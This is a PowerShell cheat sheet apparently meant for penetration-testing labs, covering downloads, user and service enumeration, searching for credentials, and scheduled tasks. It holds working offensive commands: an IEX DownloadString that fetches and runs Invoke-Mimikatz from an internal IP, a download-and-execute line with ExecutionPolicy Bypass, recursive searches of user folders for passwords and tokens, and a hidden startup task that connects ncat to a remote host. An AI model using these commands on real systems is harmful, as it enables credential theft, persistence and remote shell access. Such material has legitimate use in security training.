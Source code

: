 # Windows PowerShell Reference

## Web / Download

```powershell
# HTTP GET (headers + body)
Invoke-WebRequest -Uri "https://example.com" -Method GET

# Download a file (wget alternative)
Invoke-WebRequest -Uri "https://example.com/tools.zip" -OutFile "C:\Temp\tools.zip"

# Download using .NET WebClient
(New-Object Net.WebClient).DownloadFile("https://example.com/tools.zip", "C:\Temp\tools.zip")

# Save and execute a remote script (be careful!)
Invoke-WebRequest -Uri "https://example.com/script.ps1" -OutFile "$env:TEMP\script.ps1"; powershell -ExecutionPolicy Bypass -File "$env:TEMP\script.ps1"

# Execute a remote script Alt
IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1')
```

## Enumeration

```powershell
# Local users and groups
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember -Group "Administrators"

# Inspect a single user
Get-LocalUser -Name "Administrator" | Get-Member

# Active Directory (requires RSAT / domain access)
Get-ADUser -Filter *

# Services
Get-Service | Select-Object DisplayName, Name, Status | Sort-Object DisplayName
Get-Service | Where-Object {$_.DisplayName -like '*Defender*'}
Get-Service -ComputerName ACADEMY-ICL-DC

# Processes
Get-Process | Sort-Object CPU -Descending | Select-Object -First 20
```

## Loot folders & history

```powershell
# Show hidden files in current folder
Get-ChildItem -Hidden

# PSReadLine console history path
Get-Content (Get-PSReadlineOption).HistorySavePath

# Common paths to check for secrets
$paths = @(
  "$env:USERPROFILE\AppData\Roaming",
  "$env:USERPROFILE\AppData\Local\Microsoft\Windows\PowerShell",
  "$env:USERPROFILE\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine"
)
$paths
```

## Searching for loot (grep-like)

```powershell
# Count files under a path
(Get-ChildItem -Path C:\ -File -Recurse -ErrorAction SilentlyContinue | Measure-Object).Count

# Find files by name pattern (recursive)
Get-ChildItem -Path N:\ -Include '*cred*' -File -Recurse -ErrorAction SilentlyContinue

# Search file contents for keywords (fast)
Get-ChildItem -Path N:\ -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern 'password','credential','key' -List

# Combined: limit types and search for secrets
Get-ChildItem -Path C:\Users\ -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.Extension -in '.txt','.ps1','.py','.md','.csv' } | Select-String -Pattern 'password','credential','key','token' -List

# Example output interpretation
# N:\Contracts\private\secret.txt:1:file with all credentials
# N:\Contracts\private\credentials.txt:1:admin:SecureCredentials!
```

## Scheduled Tasks (creation / modification)

```powershell
# Create a scheduled task via schtasks (Powershell wrapper)
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -Command \"Start-Process cmd.exe -ArgumentList '/c C:\\Temp\\ncat.exe 172.16.1.100 8100' -NoNewWindow\""

# Modify task account / password
schtasks /change /tn "My Secret Task" /ru Administrator /rp "P@ssw0rd"

# Delete a task
schtasks /delete /tn "My Secret Task" /f

# List tasks (verbose)
schtasks /query /v /fo list
```

## Quick Notes

- Use `Select-String` (alias `sls`) instead of `findstr` for richer PowerShell output objects.
- `Get-ChildItem` + `Select-String` returns objects you can further filter, export, or parse.
- AD enumeration requires appropriate privileges and RSAT modules.
- Downloading and executing remote scripts is common in labs but treat as high risk on real systems.
- Use `-ErrorAction SilentlyContinue` on recursive searches to avoid noisy permission errors.

